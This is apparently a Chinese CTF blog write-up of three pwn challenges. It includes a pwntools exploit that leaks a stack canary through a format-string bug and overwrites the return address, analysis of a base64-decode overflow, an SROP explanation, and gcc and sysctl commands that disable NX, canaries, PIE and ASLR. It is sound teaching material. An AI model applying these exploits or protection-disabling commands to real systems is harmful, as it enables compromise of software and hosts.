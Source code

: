 ```yaml
---
title: 欢乐赛1
date: 2021-01-21 13:27:15
tags:
  - wp
  - study
categories:
  - pwn
---
```


### for的wp

##### 0x00分析

第一步看保护

![](C:\Hexo\source\_posts\欢乐赛1\1.png)

很显然这道题开了canary，我们再仔细观察栈的时候会发现存在格式化字符串漏洞和栈溢出漏洞，并有后门函数存在

![格式化字符串漏洞](C:\Hexo\source\_posts\欢乐赛1\2.png)

![栈溢出](C:\Hexo\source\_posts\欢乐赛1\5.png)

![后门函数](C:\Hexo\source\_posts\欢乐赛1\6.png)

右后门函数，但因为存在canary保护，我们不能直接调用后门函数，但我们可以通过格式化字符串漏洞来泄露canary的值，再覆盖system的地址。

![](C:\Hexo\source\_posts\欢乐赛1\7.png)



从上图我们可以很清楚的看到格式化字符串的偏移是7

![](C:\Hexo\source\_posts\欢乐赛1\8.png)

从上图我们可以知道canary在字符串的实际参数后32个，对于格式化字符串就是32+7=39个

##### 0x01exp

```python
from pwn import *

io=process('./for')
context.log_level = 'debug'
system_binsh_addr = 0x0804876B

io.sendlineafter("APP","2")
payload="%39$p"
io.sendline(payload)
io.recvuntil("0x")
canary = int(io.recv(8),16)
print hex(canary)

io.sendlineafter("exit","1")
payload='A'*0x80+p32(canary)+12*'A'+p32(system_binsh_addr)
io.send(payload)

io.interactive()
```



###  pwns的wp

##### 0x00 分析

看一下保护：

![](C:\Hexo\source\_posts\欢乐赛1\9.png)

这道题是32位的，canary和NX都开着的。看完保护我们就可以去看一下反汇编结果

![](C:\Hexo\source\_posts\欢乐赛1\10.png)

第18行：在这里执行子程序，通过子进程的运行结果，判断是否发生了对canary覆盖的攻击

第19行：这里如果v2的值为0，那么子进程正常运行，没有发生溢出攻击，判断条件为，当v2的值为0时进入判断内容

主函数这边有用的是1-24行，18-24行这边满足判断条件进入sub_8048B29()函数后成功执行后输出“Finish！”,然后结束程序。所以sub_8048B29()是有用的，而sub_8048B29()函数直接return sub_80487E6()；而sub_80487E6()：

![](C:\Hexo\source\_posts\欢乐赛1\11.png)

sub_80487E6()其实是一个base64解码的过程，其中第27行是canary保护的位置，第95行是对v23进行异或判断v23的值是否改变。

第55~94行：这里是一个BSAE64的译码过程

sub_80486FD函数在这个函数里是一定会进去的，而sub_80486FD()函数是：

![](C:\Hexo\source\_posts\欢乐赛1\12.png)

这个函数的主要功能其实就是使输入的数据为BASE64编码范围内的字符，不满足则报错 isalnum() 函数是判断参数是否为字母或数字。需要知道的是最后返回的是输入的数据，最大长度为513位。

##### 0x01 漏洞分析及思路

上面呢，我们就分析完了整个反汇编后的代码，那么现在我们就可以思考漏洞在哪里，以及我们应该怎么做。在那个base64解码的函数中，dest中存放了我们可以随意输入的最多512个字符长度的数据，通过下面的while循环每次取四个字符，通过一系列的位移操作使四个变成三个字符，实际上就是完成了BASE64的解码过程，并且将解码后的数据存放在 v21[257] 数组中，这个数组最多可以存放257个字符。当我们输入最大长度为512字节时，512/4*3=384，最长解码之后可以得到384字节的数据，但是v21这个数组无法存储到这么多，必然会造成溢出。

但因为程序中存在着canary保护阻止栈溢出攻击，所以我们需要泄露canary的值，又因为不存在后门函数，因此我们要泄露出基地址找到system和“/bin/sh"的地址，然后拿到权限。

##### 0x02 exp

```python

```

### unexploitable

##### 0x00分析

![](C:\Hexo\source\_posts\欢乐赛1\13.png)

反汇编里面的函数也很简单

![](C:\Hexo\source\_posts\欢乐赛1\14.png)

main函数中有栈溢出漏洞。这道题我们要去了解一下SROP利用的机制

##### 0x01 SROP

传统的ROP技术，尤其是amd64上的ROP，需要寻找大量的gadgets以对寄存器进行赋值，执行特定操作，如果没有合适的gadgets就需要进行各种奇怪的组装。这一过程阻碍了ROP技术的使用。而SROP技术的提出大大简化了ROP攻击的流程。
正如文章所述，SROP(Sigreturn Oriented Programming)技术利用了类Unix系统中的Signal机制，如图

![](C:\Hexo\source\_posts\欢乐赛1\14.jpg)

上方为用户层，下方为内核层。对于Linux来说

1. 当一个用户层进程发起signal时，控制权切到内核层
2. 内核保存进程的上下文(对我们来说重要的就是寄存器状态)到用户的栈上，然后再把rt_sigreturn地址压栈，跳到用户层执行Signal Handler，即调用rt_sigreturn
3. rt_sigreturn执行完，跳到内核层
4. 内核恢复②中保存的进程上下文，控制权交给用户层进程

有趣的是，这个过程存在着两个问题

1. rt_sigreturn在用户层调用，地址保存在栈上，执行后出栈
2. 上下文也保存在栈上，比rt_sigreturn先进栈，且内核恢复上下文时不校验
   因此，我们完全可以自己在栈上放好上下文，然后自己调用re_sigreturn，跳过步骤1、2。此时，我们将通过步骤3、4让内核把我们伪造的上下文恢复到用户进程中，也就是说我们可以重置所有寄存器的值，一次到位地做到控制通用寄存器，rip和完成栈劫持。这里的上下文我们称之为Sigreturn Frame。文章中同样给出了Sigreturn Frame的结构。

### 编译指令

老是会忘记出题用的一些编译指令，索性放在博客里mark一下。

1、关闭DEP/NX (堆栈不可执行)

```
gcc -z execstack -o 编译完的文件名 待编译的文件名
```

2、关掉Stack Protector/Canary (栈保护)

```
gcc -fno-stack-protector -o 编译完的文件名 待编译的文件名
```

3、关掉程序ASLR/PIE (程序随机化保护)

```
gcc -no-pie 编译完的文件名 待编译的文件名
```

4、关闭整个Linux系统的ASLR保护

```
sudo -s
echo 0 > /proc/sys/kernel/randomize_va_space
exit
```

5、打开整个Linux系统的ASLR保护

```
sudo -s
echo 2 > /proc/sys/kernel/randomize_va_space
```

6、64位Linux下面的GCC编译出一个32位可执行程序

```
gcc -m32 -z execstack -fno-stack-protector -o 编译完的文件名 待编译的文件名
```

